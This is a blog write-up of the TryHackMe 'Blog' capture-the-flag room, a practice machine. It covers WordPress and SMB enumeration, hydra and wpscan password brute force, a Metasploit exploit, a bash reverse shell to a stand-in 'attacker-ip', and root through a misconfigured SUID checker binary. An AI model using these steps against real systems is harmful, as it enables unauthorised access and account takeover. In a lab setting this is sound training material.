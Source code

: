 ```yaml
---
layout: post
title: Blog writeup
subtitle: Billy Joel made a Wordpress blog!
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/blog/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, blog, wordpress, checker]
---
```


Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!.Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...


## Here is a machine information

| Title | Blog | 
| :------ |:--- | 
| Difficulty | Medium | 
| Point | 360 |
| Maker | Nameless0ne |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 



## RUSTSCAN, Enumeration and Gathering Information
Normally, i will use the rustscan as scan the host and gathering machine information


``` rustscan -b 500 machine-ip -- -sv -sC -A ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]

-sV -sC -A: it is Nmap custom flag when rustscan run nmap.
</em>

It will take few time to scan: 

![gs1](/assets/img/blog/1.png)

After the scan is done. There expose the blog which is using Wordpress 5.0 and have smb service.
With SMB service, let's use ENUM4LINUX to check what thing is interesting.

```
enum4linux machine-ip
```

during waiting for the enumaration. Because this blog is using wordpress. Let do wpscan to check.

```
wpscan  --url machine-ip
```

![gs1](/assets/img/blog/2.png)

 There is not quite interesting thing. Let do further user enumaration.

 ```
wpscan --url machine-ip -e u
 ```

 we got 2 username: 

 ![gs1](/assets/img/blog/3.png)

 Such as longtime with Enum4linux. the scan got the same username.

 Another way to get the username. In wordpres, they have json enpoint api. 

 it is:

 ```
 http://machine-ip/wp-json/wp/v2/users
 ```

we got the same username.

![gs1](/assets/img/blog/4.png)

Trying to find credentials of 2 users. I have 2 ways to got it.

Using hydra to crack password

```
 hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

and we got a lot of case. but nothing is valid. 

Let try with the wpscan 
```
wpscn --url machine-ip -U bjoel,kwheel =P rockyou-wordlist.txt
```

and we got the password.

![gs1](/assets/img/blog/5.png)

Now we got the credentials. login now. 

## Got revers shell

from the goole with wordpres 5.0, we got this. this have metaspoil module.

![gs1](/assets/img/blog/6.png)

At the metaspoil, set target, rhosts, username, password. and run exploit.
At meteprete, run cmd SHELL to get into shell.


![gs1](/assets/img/blog/7.png)

Now you are got into shell. Let do revers shell.

```
nc -lvnp 1234 #run at attack machine

/bin/bash -c "bash -i >& /dev/tcp/attacker-ip/1234 0>&1"   
```

Then you have revers shell.

## Privilege Escalation

as normally, let rung sudo -l but can not because we haven't user password.

Let enum with SUID

```
find / -perm /u=s 2>/dev/null
```

From the result, there is a checker SUID. it is a bit intersting.

![gs1](/assets/img/blog/8.png)

it looks like check the admin or not. Let try to revers and read throung the code. Download the binary and analyze it using Ghidra.

with the code 
```C

int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}

```

It looks like check admin envirorment. But it is just only check is null or not. we can bypass this by:

```bash
export admin=admin

/usr/sbin/hecker
```

Finally we got root user.

![gs1](/assets/img/blog/9.png)

Now we can read the root flag.

```
find / -name '*.txt' 2>/dev/null

```

you will see the hidden user flag in media.

## Another way to get root

instead of the Ghidra to revers the bin file. We can use ltrace tool to check logic of bin file or strings.

Let use strings :
```
string /usr/sbin/checker
```

![gs1](/assets/img/blog/10.png)

and use ltrace to check logic of file.

```
ltrace /usr/sbin/checker

```
![gs1](/assets/img/blog/11.png)

because this is exploited already. tthat why admin here is not null.

Happy hacking!!!